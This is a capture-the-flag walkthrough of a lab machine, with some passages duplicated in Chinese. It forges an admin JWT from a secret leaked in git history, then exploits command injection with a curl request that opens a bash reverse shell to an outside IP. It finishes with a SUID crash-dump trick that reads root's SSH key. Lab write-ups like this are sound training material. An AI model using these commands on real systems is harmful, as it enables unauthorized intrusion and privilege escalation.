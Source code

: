1,Enumerate 
ports scan:
	22/tcp ssh
	80/tcp http Nginx 1.18.0
	3000/tcp http Node.js

enumerate the web pages of port 80:
![[Pasted image 20240721054724.png]]
The configurations may be very attractive
but nothing there, but we found the docs (documents of tech), it gives us about to register and login user.
# Introduction Last updated: 2019-06-01

This is a API based Authentication system. we are using "JWT" tokens to make things more secure. to store the user data we are using mongodb, you can find a demo of how the api works in [here](http://10.10.11.120/api) this is a very secured Authentication system will well done documentation ( sometimes companies hide endpoints ) but our code is public

![[Pasted image 20240721062903.png]]
it is clear that http://localhost:3000/api/priv help server to check auth of admins

And we can also download the source code.
from .git file,we can get credit dasithsv@gmail.com 

	git log --oneline

![[Pasted image 20240721062316.png]]
	67d8da7 removed .env for security reasons
it seems very interesting because of security reasons!
we get :
	 `DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
	`-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`
	`+TOKEN_SECRET = secret`

This token would be exploited, let's try it!

We have known "using JWT tokens to make things more secure"
So we try to decode the token of documents
	``   eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.PFJldSFVDrSoJ-Pg0HOxkGjxQ69gxVO2Kjn7ozw9Crg`

![[Pasted image 20240721064825.png]]
We sucessfully cracked it.

From log.js
![[Pasted image 20240721064938.png]]
It has command injection in 
	`if (name == 'theadmin'){
        `const getLogs = git log --oneline ${file};
        `exec(getLogs, (err , output) =>{

So we need to make name == 'theadmin'
![[Pasted image 20240721065843.png]]

try to exploit the command injection
	`curl -s -G 'http://10.10.11.120/api/logs' --data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.16.8/4444 0>&1'" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .`
then we can get reverse shell !

2,Shell as root
upload pspy64 to check background applications, but nothing happened.

Enumerate the templates of machine
there is nothing attactive in the root /, but in /opt there are some interesting things.
![[Pasted image 20240721071257.png]]
count is a SUID binary, which means it will run as it’s owner regardless of who runs it. In this case, that user is root. Running it prompts for a filename:

The intended path to exploit this binary is to abuse the file descriptors in use by the count process. The issue in the source code is that it never closes file, which is the handle to the given filepath. That means that as long as the program is running, the handle will be in /proc/[pid]/fd. Typically this would be flushed on the setuid, but because of PR_SET_DUMPABLE, the file handles will stay open. To exploit this, I’ll run the program, and then background it when it gets to the prompt:
利用此二进制文件的预期路径是滥用 count 进程使用的文件描述符。源代码中的问题是它永远不会关闭 file ，它是给定文件路径的句柄。这意味着只要程序正在运行，句柄就会位于 /proc/[pid]/fd 中。通常这会在 setuid 上刷新，但由于 PR_SET_DUMPABLE ，文件句柄将保持打开状态。为了利用这一点，我将运行该程序，然后在出现提示时将其置于后台

	`./count check /root/root.txt crtl+z`
	`ps auxww | grep count  find the count process`
	`cd /proc/*/fd/`
	`check it`
we cannot directly check it because of "cat: 3: Permission denied"

![[Pasted image 20240721072724.png]]
we found only root can read it and there are .ssh doc and .viminfo to inspire us.

There’s a comment in the source // Enable coredump generation. That’s a good hint to try generating a crash of the process. When a program crashes, the system stores the crash dump files in /var/crash. There’s actually already two there:
源代码中有一条注释 // Enable coredump generation 。这是尝试生成进程崩溃的一个很好的提示。当程序崩溃时，系统将故障转储文件存储在 /var/crash 中。实际上已经有两个了

The kill command is typically associated with killing processes, but what it actually does is send a specified signal to a process, and the default signal is TERM (making the default behavior to kill the process). kill -l will show all the possible signals:
kill 命令通常与杀死进程相关联，但它实际上做的是向进程发送指定的信号，默认信号是 TERM （默认行为是杀死进程）过程）。 kill -l 将显示所有可能的信号

SIGSEGV is the signal to send a segmentation fault, which will crash the program. I’ll send it, and then resume the program with fg:
SIGSEGV 是发送分段错误的信号，这将使程序崩溃。我将发送它，然后使用 fg 恢复程序

There’s a new file in /var/crash
![[Pasted image 20240721075949.png]]

It has all kinds of information about the process at the time of the crash, and a large base-64 encoded blob at the end.
它包含有关崩溃时进程的各种信息，以及末尾的大型 Base-64 编码 blob。

apport-unpack will decompress the dump into a given directory:
apport-unpack 将把转储解压缩到给定目录：

	`apport-unpack _opt_count.1000.crash /tmp/`
	`file CoreDump` file shows CoreDump as an ELF binary
	`strings -n 30 CoreDump`

That’s because it’s the memory of the process at the time of the crash. Running strings on it will return the file:
那是因为它是崩溃时进程的内存。在其上运行字符串将返回文件

Finally we get ssh private key from .viminfo
then use it to get root flag.